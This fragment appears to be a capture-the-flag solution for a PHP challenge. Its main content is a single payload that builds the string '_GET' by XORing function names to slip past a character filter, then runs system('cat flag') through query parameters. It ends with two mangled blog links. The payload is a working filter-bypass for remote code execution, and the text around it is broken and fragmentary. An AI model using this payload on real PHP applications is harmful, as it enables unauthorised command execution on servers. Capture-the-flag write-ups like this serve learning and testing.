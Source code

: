 $pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20flag
httpswww.cnblogs.comwrnanp13765680.html

httpsblog.csdn.netmiuzzx